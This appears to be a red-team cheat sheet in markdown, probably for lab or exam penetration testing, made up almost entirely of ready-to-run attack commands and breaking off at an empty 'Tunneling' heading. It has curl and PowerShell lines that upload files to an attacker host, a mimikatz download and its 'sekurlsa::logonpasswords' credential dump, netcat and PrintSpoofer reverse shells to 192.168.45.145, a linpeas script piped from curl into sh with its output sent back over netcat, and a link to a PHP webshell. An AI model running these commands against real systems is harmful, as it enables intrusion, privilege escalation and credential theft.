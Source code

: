 # Red Team Cheat Sheet

# Web

## Directory Traversal

https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content

Commonly Used Dictionaries

```
# web/common.txt - 4743 Lines
https://raw.githubusercontent.com/voidexec/sec/main/web/common.txt

# web/big.txt - 20476 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/big.txt

# web/directory-list-2.3-small.txt - 87664 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-small.txt

# web/directory-list-2.3-medium.txt - 220559 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-medium.txt

# web/directory-list-2.3-big.txt - 1273832 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-big.txt
```

## HTTP Server for Upload and Download

```
# Download
https://raw.githubusercontent.com/voidexec/sec/main/web/httpserver.py

# Start Server
python3 httpserver.py (default port 80)
python3 httpserver.py -p 8000

# Upload file with curl
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.45.145/

# Download file with curl
curl -O http://192.168.45.145/linpeas.sh

# Upload with PowerShell
Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $fs = [System.IO.File]::OpenRead("C:\Users\Public\test.out"); $content = New-Object System.Net.Http.MultipartFormDataContent; $fileContent = New-Object System.Net.Http.StreamContent($fs); $fileContent.Headers.ContentDisposition = New-Object System.Net.Http.Headers.ContentDispositionHeaderValue("form-data"); $fileContent.Headers.ContentDisposition.Name = '"file"'; $fileContent.Headers.ContentDisposition.FileName = '"test.out"'; $content.Add($fileContent); $client.PostAsync("http://192.168.45.199/", $content).Wait(); $client.Dispose()

# Download with PowerShell
iwr -uri "http://192.168.45.145/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
```

# Shell

Reverse Shell Generator https://www.revshells.com/

```bash
# PHP One-liner webshell
https://raw.githubusercontent.com/voidexec/sec/main/webshells/shell.php
```

# Windows

PrintSpoofer (Abusing `SeImpersonatePrivilege`)

https://github.com/itm4n/PrintSpoofer

```powershell
https://github.com/itm4n/PrintSpoofer/releases
# Usage 1 - Spawning cmd interactive as system
PrintSpoofer64.exe -i -c cmd
# Usage 2 - Launching reverse shell as system
PrintSpoofer64.exe -c "C:\Users\Public\nc64.exe 192.168.45.145 9001 -e powershell"
```

NC

https://github.com/int0x33/nc.exe/

```powershell
https://github.com/int0x33/nc.exe/
# nc64.exe
https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe
# Reverse shell
nc64.exe 192.168.45.145 9001 -e powershell
```

Mimikatz

https://github.com/ParrotSec/mimikatz

```powershell
https://raw.githubusercontent.com/ParrotSec/mimikatz/refs/heads/master/x64/mimikatz.exe
# Usage
privilege::debug
sekurlsa::logonpasswords full
```

# Linux

```powershell
https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out # attacker
curl http://192.168.45.145/linpeas.sh | sh | nc 192.168.45.145 9002 # victim
```

# Tunneling

